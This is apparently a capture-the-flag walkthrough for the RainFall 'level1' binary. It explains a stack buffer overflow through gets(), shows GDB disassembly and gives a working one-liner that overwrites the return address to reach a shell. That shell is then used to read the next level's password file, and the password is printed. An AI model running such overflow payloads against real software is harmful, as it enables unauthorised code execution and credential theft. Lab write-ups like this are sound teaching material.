 # Walkthrough

## Solution
```
$ (python -c "print 'A' * 76 + '\x44\x84\x04\x08'" ; cat) | ./level1 
```

## Explanation

GDB:
info functions -> list all functions available

EIP: Instruction pointer, points to the next function to be executed

https://wiremask.eu/tools/buffer-overflow-pattern-generator/


### Disassembly

```
(gdb) disas main
Dump of assembler code for function main:
   0x08048480 <+0>:	push   %ebp
   0x08048481 <+1>:	mov    %esp,%ebp
   0x08048483 <+3>:	and    $0xfffffff0,%esp
   0x08048486 <+6>:	sub    $0x50,%esp      // substract 80 from esp
   0x08048489 <+9>:	lea    0x10(%esp),%eax
   0x0804848d <+13>:	mov    %eax,(%esp)
   0x08048490 <+16>:	call   0x8048340 <gets@plt>
   0x08048495 <+21>:	leave  
   0x08048496 <+22>:	ret    
End of assembler dump.

(gdb) info functions
0x08048444  run
0x08048480  main

There is a run function.
(gdb) disas run
Dump of assembler code for function run:
   0x08048444 <+0>:	push   %ebp
   0x08048445 <+1>:	mov    %esp,%ebp
   0x08048447 <+3>:	sub    $0x18,%esp
   0x0804844a <+6>:	mov    0x80497c0,%eax
   0x0804844f <+11>:	mov    %eax,%edx
   0x08048451 <+13>:	mov    $0x8048570,%eax
   0x08048456 <+18>:	mov    %edx,0xc(%esp)
   0x0804845a <+22>:	movl   $0x13,0x8(%esp)
   0x08048462 <+30>:	movl   $0x1,0x4(%esp)
   0x0804846a <+38>:	mov    %eax,(%esp)
   0x0804846d <+41>:	call   0x8048350 <fwrite@plt>
   0x08048472 <+46>:	movl   $0x8048584,(%esp)
   0x08048479 <+53>:	call   0x8048360 <system@plt>
   0x0804847e <+58>:	leave  
   0x0804847f <+59>:	ret    
End of assembler dump.
```  

The function gets is not protected against buffer overflows.  
We need to overflow the buffer, to overwrite EIP with the run function address.  
With wiremask, we know that we segfault at character 76.  
We are going to write 76 characters followed by the address of run.  

```
python -c "print 'A' * 76 + '\x44\x84\x04\x08'" | ./level1
Good... Wait what?
Segmentation fault (core dumped)
```  

> We need to use cat, so that the program wait for an input from stdin  

```
level1@RainFall:~$ (python -c "print 'A' * 76 + '\x44\x84\x04\x08'" ; cat) | ./level1 
Good... Wait what?
ls
ls: cannot open directory .: Permission denied
whoami
level2
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```








Stack based buffer overflows are one of the most common vulnerabilities. Found today. It affects any
function that copies input to memory without doing bounds checking. For example:
Strcpy(),memcpy(),gets(),etc…..
What is a buffer overflow? A buffer overflow occurs when a function copies data into a buffer without
doing bounds checking. So if the source data size is larger than the destination buffer size this data will
overflow the buffer towards higher memory address and probably overwrite previous data on stack.


https://0xrick.github.io/binary-exploitation/bof3/

Transform the address to little endian because in general the stack goes from the top of the memory to the bottom,
thus the "data" you use is always written from low to high  
```
0A 0B 0C 0D
 | | | |    Memory:
 | | |  ---> 0D (a)
 | |  ------> 0C (a+1)
 |  ---------> 0B (a+2)
  -----------> 0A (a+3)
  Little endian
```
